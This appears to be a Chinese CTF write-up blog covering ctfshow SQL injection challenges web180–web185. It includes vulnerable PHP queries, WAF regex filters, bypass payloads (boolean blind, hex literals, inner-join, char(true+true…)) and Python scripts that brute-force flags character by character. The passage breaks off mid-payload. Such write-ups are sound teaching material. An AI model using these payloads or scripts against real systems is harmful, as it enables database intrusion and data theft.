<h1 id="web180"><a href="#web180" class="headerlink" title="web180"></a>web180</h1><h2 id="原始信息-89"><a href="#原始信息-89" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line">查询语句</span><br><span class="line"></span><br><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,password from ctfshow_user where username !=&#x27;flag&#x27; and id = &#x27;&quot;</span>.<span class="variable">$_GET</span>[<span class="string">&#x27;id&#x27;</span>].<span class="string">&quot;&#x27; limit 1;&quot;</span>;</span><br><span class="line">      </span><br><span class="line"></span><br><span class="line">返回逻辑</span><br><span class="line"></span><br><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">   <span class="comment">//代码过于简单，不宜展示</span></span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-84"><a href="#解题-84" class="headerlink" title="解题"></a>解题</h2><p>这次过滤了注释用的几乎所有的符号。如果说SQL中仅存在 <code>#和--和/**/</code> 这三种的话，这次是真的用不了了。</p>
<p>这里考虑直接使用明文去显示我们需要的信息。 </p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"># 和之前稍微有那么一点不同，过滤掉注释符号得换一种方式去替代</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(1&gt;0,1,1))and&#x27;</span><span class="number">1</span></span><br><span class="line"># 改写下之前的payload</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring((select(group_concat(password))from(ctfshow_user)),249,1)=&#x27;</span>c<span class="string">&#x27;,1,0))and&#x27;</span><span class="number">1</span></span><br><span class="line">#变更下变成：</span><br><span class="line"><span class="number">1</span><span class="string">&#x27;and(if(substring((select(group_concat(password))from(ctfshow_user)),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,1,0))and&#x27;</span><span class="number">1</span></span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789_,<span class="operator">-</span>&#123;&#125;</span><br><span class="line"><span class="keyword">return</span>: ctfshow&#123;adcc6739<span class="operator">-</span>d8d3<span class="number">-4</span>ff3<span class="operator">-</span>bf95<span class="operator">-</span>cce3a640bd48&#125;</span><br></pre></td></tr></table></figure>

<h2 id="总结-6"><a href="#总结-6" class="headerlink" title="总结"></a>总结</h2><p>过滤了:</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment"># -- /**/ 空格</span></span><br><span class="line">绕过方法：</span><br><span class="line">    使用<span class="string">&#x27;and(&#123;数据&#125;)and&#x27;</span>的形式进行绕过</span><br></pre></td></tr></table></figure>


<h1 id="web181-web182"><a href="#web181-web182" class="headerlink" title="web181~web182"></a>web181~web182</h1><h2 id="原始信息-90"><a href="#原始信息-90" class="headerlink" title="原始信息"></a>原始信息</h2><p>使用SQL注入是没有灵魂的</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">#web181</span></span><br><span class="line">查询语句</span><br><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,password from ctfshow_user where username !=&#x27;flag&#x27; and id = &#x27;&quot;</span>.<span class="variable">$_GET</span>[<span class="string">&#x27;id&#x27;</span>].<span class="string">&quot;&#x27; limit 1;&quot;</span>;</span><br><span class="line">      </span><br><span class="line"></span><br><span class="line">返回逻辑</span><br><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">  &#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">#web182</span></span><br><span class="line">查询语句</span><br><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,password from ctfshow_user where username !=&#x27;flag&#x27; and id = &#x27;&quot;</span>.<span class="variable">$_GET</span>[<span class="string">&#x27;id&#x27;</span>].<span class="string">&quot;&#x27; limit 1;&quot;</span>;</span><br><span class="line">      </span><br><span class="line">返回逻辑</span><br><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select|flag/i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-85"><a href="#解题-85" class="headerlink" title="解题"></a>解题</h2><p>这次的关键字过滤有点严谨过头的感觉（头皮发麻）。</p>
<p>首先，这里能使用<code>and or </code> 两个逻辑，如果是单纯的使用and逻辑进行布尔盲注，能提取出当前数据库 <code>ctfshow_web</code> ,但如果是按照顺序去提取出数据表、字段、数据内容的话，如何在毫不知情的情况下绕过这么个限制枷锁去获取表和字段？</p>
<p>这还真是个大问题。</p>
<p>如果是按照前一题的经验直接测试字段名字得到对应的值，说实在有些投机取巧。这也是我不怎么赞成的原因之一。。</p>
<p>这是一个利用前面payload获取到的字段进行的当前题目的payload获取，如下：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="keyword">get</span>: <span class="number">-1</span><span class="string">&#x27;||username=&#x27;</span>flag (web181可以使用)</span><br><span class="line">#或者这个：</span><br><span class="line"><span class="keyword">get</span>: <span class="number">-1</span><span class="string">&#x27;||id=&#x27;</span><span class="number">26</span><span class="string">&#x27;||&#x27;</span>  (web181和web182通用)</span><br></pre></td></tr></table></figure>

<p>对应的mysql优先级如下：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">mysql操作符优先级：（数字越大，优先级越高）</span><br><span class="line"></span><br><span class="line">优先级    运算符</span><br><span class="line"><span class="number">1</span>        :=</span><br><span class="line"><span class="number">2</span>        || , OR , XOR</span><br><span class="line"><span class="number">3</span>        &amp;&amp; , AND</span><br><span class="line"><span class="number">4</span>        NOT</span><br><span class="line"><span class="number">5</span>        BETWEEN, CASE, WHEN, THEN, ELSE</span><br><span class="line"><span class="number">6</span>        =, &lt;=&gt;, &gt;=, &gt;, &lt;=, &lt;, &lt;&gt;, !=, IS, LIKE, REGEXP, IN</span><br><span class="line"><span class="number">7</span>        |</span><br><span class="line"><span class="number">8</span>        &amp;</span><br><span class="line"><span class="number">9</span>        &lt;&lt;, &gt;&gt;</span><br><span class="line"><span class="number">10</span>        -, +</span><br><span class="line"><span class="number">11</span>        *, /, DIV, %, MOD</span><br><span class="line"><span class="number">12</span>        ^</span><br><span class="line"><span class="number">13</span>        - (一元减号), ~ (一元比特反转)</span><br><span class="line"><span class="number">14</span>        !</span><br><span class="line"><span class="number">15</span>        BINARY, COLLATE</span><br></pre></td></tr></table></figure>


<p>反推真的只有取巧这一个办法吗？或者说这是字段的猜解和爆破。</p>
<p>结果找了一圈，貌似还真是只有这个办法……</p>
<h1 id="web183-布尔注入"><a href="#web183-布尔注入" class="headerlink" title="web183-布尔注入"></a>web183-布尔注入</h1><h2 id="原始信息-91"><a href="#原始信息-91" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line">  <span class="variable">$sql</span> = <span class="string">&quot;select count(pass) from &quot;</span>.<span class="variable">$_POST</span>[<span class="string">&#x27;tableName&#x27;</span>].<span class="string">&quot;;&quot;</span>;</span><br><span class="line">      </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<p>查询结果</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//返回用户表的记录总数</span></span><br><span class="line">      <span class="variable">$user_count</span> = <span class="number">22</span>;    </span><br></pre></td></tr></table></figure>

<h2 id="解题-86"><a href="#解题-86" class="headerlink" title="解题"></a>解题</h2><p>观察题目，post传参。</p>
<p>唯一的回显点：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//返回用户表的记录总数</span></span><br><span class="line">      <span class="variable">$user_count</span> = <span class="number">22</span>;  </span><br></pre></td></tr></table></figure>


<p>前面提示到：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select count(pass) from &quot;</span>.<span class="variable">$_POST</span>[<span class="string">&#x27;tableName&#x27;</span>].<span class="string">&quot;;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>表示的是Sql语句缺一个表名，而表名需要我们通过POST传参的方式传入。</p>
<p>前面的参照参数是 <code>pass</code> ,那么尝试使用 <code>pass</code> 直接找出对应的flag。</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">tableName<span class="operator">=</span>`ctfshow_user`<span class="keyword">where</span>`pass`<span class="keyword">like</span><span class="string">&#x27;ctfshow&#123;1&#125;%&#x27;</span></span><br></pre></td></tr></table></figure>

<p>参数 <code>&#123;1&#125;</code> 是替换的地方，想要最省力的替换其实写一个python脚本就解决了。</p>
<p>毕竟全自动，跑两遍能出flag是最省心的。</p>
<p>但有一种情况，是手动测试出来，比测Python更快些。</p>
<p>这里使用的 <code>sql</code> 语法是相似，泛匹配，也就是 <code>pass like &#39;ctfshow&#123;c%&#39;</code> 。</p>
<p>其中末尾的 <code>c</code> 是要替换的部分，而能替换上的，自然是： <code>abcdefghijklmnopqrstuvwxyz0123456789-&#123;&#125;</code> 。</p>
<p>通过BP爆破测试出flag的每个字符串也是可以的。</p>
<p>脚本爆破会受到一定的限制，这里给出一个脚本：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="keyword">import</span> requests</span><br><span class="line"><span class="keyword">import</span> time</span><br><span class="line">url=<span class="built_in">input</span>(<span class="string">&#x27;please enter url:&#x27;</span>)</span><br><span class="line"><span class="built_in">print</span>(<span class="string">&quot;*--&quot;</span>*<span class="number">12</span>+<span class="string">&#x27;*&#x27;</span>)</span><br><span class="line"></span><br><span class="line">flagstr=<span class="string">&quot;ctfshow&#123;qeryuipadgjklzxvbnm0123456789-&#125;_&quot;</span></span><br><span class="line">flag=<span class="string">&quot;&quot;</span></span><br><span class="line"><span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">0</span>,<span class="number">34</span>):</span><br><span class="line">    <span class="keyword">for</span> x <span class="keyword">in</span> flagstr:</span><br><span class="line">        data=&#123;</span><br><span class="line">            <span class="string">&quot;tableName&quot;</span>:<span class="string">&quot;`ctfshow_user`where`pass`regexp(\&quot;ctfshow&#123;&#125;\&quot;)&quot;</span>.<span class="built_in">format</span>(flag+x)</span><br><span class="line">            <span class="comment">#&quot;tableName&quot;:&quot;`ctfshow_user`where`pass`like\&#x27;ctfshow&#123;&#125;%\&#x27;&quot;.format(flag+x)</span></span><br><span class="line">        &#125;</span><br><span class="line">        response=requests.post(url,data=data)</span><br><span class="line">        <span class="comment">#有并发数量限制的题目，就睡一段时间</span></span><br><span class="line">        time.sleep(<span class="number">0.3</span>)</span><br><span class="line">        <span class="keyword">if</span> response.text.find(<span class="string">&quot;$user_count = 1;&quot;</span>)&gt;<span class="number">0</span>:</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">&quot;++++++++++++++++ &#123;&#125; is right&quot;</span>.<span class="built_in">format</span>(x))</span><br><span class="line">            flag+=x</span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line">        <span class="keyword">else</span>:</span><br><span class="line">            <span class="keyword">continue</span></span><br><span class="line">    <span class="built_in">print</span>(<span class="string">&quot;ctfshow&quot;</span>+flag)</span><br><span class="line"></span><br><span class="line"></span><br></pre></td></tr></table></figure>

<p>我是手工注入，挨个测flag的。</p>
<h1 id="web184"><a href="#web184" class="headerlink" title="web184"></a>web184</h1><h2 id="原始信息-92"><a href="#原始信息-92" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line">  <span class="variable">$sql</span> = <span class="string">&quot;select count(*) from &quot;</span>.<span class="variable">$_POST</span>[<span class="string">&#x27;tableName&#x27;</span>].<span class="string">&quot;;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\&#x27;|\&quot;|union|\`|sleep|benchmark/i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<p>查询结果</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//返回用户表的记录总数</span></span><br><span class="line">      <span class="variable">$user_count</span> = <span class="number">0</span>;  </span><br></pre></td></tr></table></figure>

<h2 id="解题-87"><a href="#解题-87" class="headerlink" title="解题"></a>解题</h2><h3 id="脚本"><a href="#脚本" class="headerlink" title="脚本"></a>脚本</h3><p>借用一个<a target="_blank" rel="noopener" href="https://blog.csdn.net/rfrder/article/details/113664639">师傅</a>的脚本：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment"># coding=utf-8</span></span><br><span class="line"><span class="keyword">import</span> requests</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">str_to_hex</span>(<span class="params">s</span>):</span><br><span class="line">    f = <span class="string">&#x27;&#x27;</span>.join([<span class="built_in">hex</span>(<span class="built_in">ord</span>(c)).replace(<span class="string">&#x27;0x&#x27;</span>, <span class="string">&#x27;&#x27;</span>) <span class="keyword">for</span> c <span class="keyword">in</span> s])</span><br><span class="line">    <span class="built_in">print</span>([f])</span><br><span class="line">    <span class="keyword">return</span> f</span><br><span class="line"></span><br><span class="line">url=<span class="string">&quot;http://114cd434-905e-470d-a948-11d977af6bad.challenge.ctf.show/select-waf.php&quot;</span></span><br><span class="line"></span><br><span class="line">flag=<span class="string">&quot;ctfshow&#123;&quot;</span></span><br><span class="line"><span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">0</span>,<span class="number">100</span>):</span><br><span class="line">    <span class="keyword">for</span> j <span class="keyword">in</span> <span class="string">&quot;0123456789abcdefghijklmnopqrstuvwxyz-&#123;&#125;&quot;</span>:</span><br><span class="line">        exp = <span class="string">&quot;ctfshow_user a inner join ctfshow_user b on b.pass like &#123;&#125;&quot;</span>.<span class="built_in">format</span>(<span class="string">&quot;0x&quot;</span>+str_to_hex(flag+j+<span class="string">&quot;%&quot;</span>))</span><br><span class="line">        <span class="built_in">print</span>(exp)</span><br><span class="line">        data=&#123;</span><br><span class="line">            <span class="string">&#x27;tableName&#x27;</span>:exp</span><br><span class="line">        &#125;</span><br><span class="line">        r=requests.post(url=url,data=data).text</span><br><span class="line">        <span class="keyword">if</span> <span class="string">&quot;$user_count = 22;&quot;</span> <span class="keyword">in</span> r:</span><br><span class="line">            flag+=j</span><br><span class="line">            <span class="built_in">print</span>(flag)</span><br><span class="line">            <span class="keyword">if</span> j==<span class="string">&#x27;&#125;&#x27;</span>:</span><br><span class="line">                exit()</span><br><span class="line">            <span class="keyword">break</span></span><br></pre></td></tr></table></figure>

<h3 id="原理"><a href="#原理" class="headerlink" title="原理"></a>原理</h3><p>原理是这样的：</p>
<p>原本的封禁当中禁用了空格，这里释放了一个对空格的过滤。，基础的sql语句组装是这样的：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="keyword">select</span> <span class="built_in">count</span>(<span class="operator">*</span>) <span class="keyword">from</span> ctfshow_user <span class="keyword">where</span> pass <span class="keyword">like</span> &quot;ctfshow%&quot;</span><br></pre></td></tr></table></figure>

<p>但是出现了被禁用关键词的情况：<code>where,&quot;,&#39;</code> 被禁用。</p>
<p>如果想要绕过这些禁用，使用like对十六进制参数的匹配替代 <code>&quot;ctfshow%&quot;</code> ,在使用内 <code>mysql</code> 的 <code>inner join内连接</code> 去替换掉 <code>where</code></p>
<p>(不得不说这师傅对这SQL注入真的是太熟悉了，实在是佩服)</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="keyword">select</span> <span class="built_in">count</span>(<span class="operator">*</span>) <span class="keyword">from</span> ctfshow_user a innrer <span class="keyword">join</span> ctfshow_user b <span class="keyword">on</span> b.pass <span class="keyword">like</span> <span class="number">0x63746673686f7725</span></span><br></pre></td></tr></table></figure>

<p>a和b用来指代表名，而 <code>inner join</code> 是用来去除重复的，而后面的 <code>on</code> 正是指代条件用的。原本常见的是 <code>a.pass=b.pass</code> 但是 <code>=</code> 被禁用了，换成了  <code>like</code> 。</p>
<p>所以这个wp简单理解就是：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="keyword">select</span> <span class="built_in">count</span>(<span class="operator">*</span>) <span class="keyword">from</span> ctfshow_user a innrer <span class="keyword">join</span> ctfshow_user b <span class="keyword">on</span> b.pass <span class="keyword">like</span> <span class="number">0x63746673686f7725</span></span><br><span class="line"># 相当于</span><br><span class="line"><span class="keyword">select</span> <span class="built_in">count</span>(<span class="operator">*</span>) <span class="keyword">from</span> ctfshow <span class="keyword">where</span> pass <span class="keyword">like</span> &quot;ctfshow%&quot;</span><br></pre></td></tr></table></figure>

<h3 id="变相解决"><a href="#变相解决" class="headerlink" title="变相解决"></a>变相解决</h3><p>既然知道了注点在哪，那么就可以使用BP进行爆破。</p>
<p>BP爆破的解法：使用暴力破解+编码的形式一个个猜解。</p>
<h2 id="总结-7"><a href="#总结-7" class="headerlink" title="总结"></a>总结</h2><ol>
<li><code>maridb</code> 数据库语法中的 <code>group by xxx having xxx like &#39;ctfshow%&#39;</code> 可以代替 <code>where xxx like &#39;ctfshow%&#39;</code> .</li>
<li>内连查询能逃避 <code>where</code> 被限制的情况：<code>select * from table1 a inner join table2 b on a.pass like &quot;ctfshow%&quot;</code> 。</li>
<li>十六进制字符 <code>0x????????</code> 串能逃避 <code>&#39; 和 &quot;</code> 被限制的情况。</li>
</ol>
<h1 id="web185"><a href="#web185" class="headerlink" title="web185"></a>web185</h1><h2 id="原始信息-93"><a href="#原始信息-93" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line">  <span class="variable">$sql</span> = <span class="string">&quot;select count(*) from &quot;</span>.<span class="variable">$_POST</span>[<span class="string">&#x27;tableName&#x27;</span>].<span class="string">&quot;;&quot;</span>;</span><br><span class="line">      </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\&#x27;|\&quot;|union|\`|sleep|benchmark/i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">  &#125;</span><br><span class="line"></span><br><span class="line">      </span><br></pre></td></tr></table></figure>

<p>查询结果</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//返回用户表的记录总数</span></span><br><span class="line">      <span class="variable">$user_count</span> = <span class="number">0</span>;</span><br><span class="line">      </span><br></pre></td></tr></table></figure>


<h2 id="解题-88"><a href="#解题-88" class="headerlink" title="解题"></a>解题</h2><p>正则表达式比对：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="string">&#x27;/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\&#x27;|\&quot;|union|\`|sleep|benchmark/i&#x27;</span></span><br><span class="line"><span class="string">&#x27;/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\&#x27;|\&quot;|union|\`|sleep|benchmark/i&#x27;</span></span><br></pre></td></tr></table></figure>

<p>多过滤了数字，无法使用十六进制进行绕过了。</p>
<p>这里看到了一个非常巧妙的无数字注入，也就是纯字母注入。</p>
<p>原本的payload的是这样的：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="keyword">select</span> <span class="built_in">count</span>(<span class="operator">*</span>) <span class="keyword">from</span> ctfshow_user <span class="keyword">group</span> <span class="keyword">by</span> pass <span class="keyword">having</span> pass <span class="keyword">like</span> <span class="string">&#x27;ctfshow&#123;%&#x27;</span></span><br></pre></td></tr></table></figure>

<p>但是被限制了 <strong>数字</strong> 和 <strong>单引号双引号</strong> ，所以说这个条件得换一种形式。</p>
<p>这里使用了 <strong>布尔</strong> 获取数字和 <strong>concat</strong> 组合字符串。还有 <code>char()</code> 将数字转为字符。</p>
<p>换一种写法就是：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="comment">-- 假设你传入的是&#x27;ctfshow&#123;%&#x27;</span></span><br><span class="line"><span class="keyword">select</span> <span class="built_in">count</span>(<span class="operator">*</span>) <span class="keyword">from</span> ctfshow_user <span class="keyword">group</span> <span class="keyword">by</span> pass <span class="keyword">having</span> pass <span class="keyword">like</span> concat(<span class="type">char</span>(<span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span>),<span class="type">char</span>(<span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span 